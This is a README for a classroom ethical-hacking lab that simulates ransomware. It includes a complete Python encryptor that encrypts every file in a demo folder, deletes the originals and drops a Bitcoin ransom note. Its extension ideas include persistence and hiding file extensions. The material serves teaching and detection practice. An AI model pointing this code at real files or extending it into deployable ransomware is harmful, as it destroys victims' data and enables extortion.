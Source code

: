 # Webdeves Ethical Hacking Project (Group A)
# Ransomware Simulator Project (Ethical Hacking Lab)

## Objective
Simulate a ransomware attack in a controlled environment to understand how file encryption and ransom messages work. This project is strictly for **educational purposes** and should only be executed inside **virtual machines** on **test files** but will be used to build your confidence as an ethical hacker.


## Project Structure
```
ransomware_simulator/
│
├── encryptor.py            # Script to encrypt files and drop ransom note
├── decryptor.py            # Script to decrypt files with a key
├── key.key                 # Generated encryption key
├── ransom_note.txt         # Template ransom message (used in script)
├── demo_files/             # Test files that will be encrypted
└── README.md               # Instructions and documentation
```

- Only run this in **virtual machines**.
- Use only the `demo_files/` folder with dummy/test files.
- Never target system folders or real documents.
- Understand the legal and ethical implications before testing.


## Getting Started

### Step 1: Setup Environment
- Python 3.7+
- Install dependencies:
```bash
pip install cryptography
```
- Create test files in `demo_files/` folder (e.g. `.txt`, `.docx`, `.jpg`)

### Step 2: Run Encryptor
```bash
python encryptor.py
```
This will:
- Encrypt all files in `demo_files/`
- Replace originals with `.enc` files
- Create a ransom note called `README.txt`

### Step 3: Decryption
You’ll use the `decryptor.py` script and the `key.key` file to recover the original files. This will simulate what happens when a victim "pays the ransom".

---

## decryptor.py (To be added)
You will load:
- Load the `key.key`
- Decrypt each `.enc` file in the folder
- Recreate the original files

## Learning Outcomes
- Understand how ransomware operates
- Learn file encryption/decryption using `cryptography`
- Explore defense mechanisms and detection strategies
- Discuss ethical and legal implications of malware simulation

---

## Extension Ideas
- Add a GUI popup with countdown timer
- Simulate file extension hiding
- Add basic persistence (autostart simulation)
- Build a basic ransomware detector script (blue team exercise)

---

## 📬 Submission Checklist
- [ ] `encryptor.py` script completed
- [ ] `decryptor.py` script created
- [ ] Test run and screenshot of encrypted files
- [ ] Report (1 page): What you learned + detection methods

---

## Ethics Reminder
This project is for educational cybersecurity use only. Misusing this knowledge is illegal and unethical. Respect privacy, security, and laws at all times.

## encryptor.py

from cryptography.fernet import Fernet
import os, glob

# Create and store encryption key
key = Fernet.generate_key()
with open("key.key", "wb") as f:
    f.write(key)

fernet = Fernet(key)

# Folder containing files to simulate encryption
folder = "demo_files/"
os.makedirs(folder, exist_ok=True)

# Encrypt all files in folder
for filepath in glob.glob(folder + "*"):
    if filepath.endswith(".enc") or filepath.endswith("README.txt"):
        continue
    with open(filepath, "rb") as f:
        data = f.read()
    encrypted = fernet.encrypt(data)
    with open(filepath + ".enc", "wb") as f:
        f.write(encrypted)
    os.remove(filepath)

# Drop ransom note
```bash
ransom_note = """
--- YOUR FILES HAVE BEEN ENCRYPTED ---
To recover your data, send 1 BTC to the following address:
1A2b3C4d5E6f7G8h9I0j
Then contact us with proof of payment.
You have 48 hours before your files are lost forever.
"""
```

with open(folder + "README.txt", "w") as f:
    f.write(ransom_note)

print("[+] Files encrypted. Ransom note dropped.")
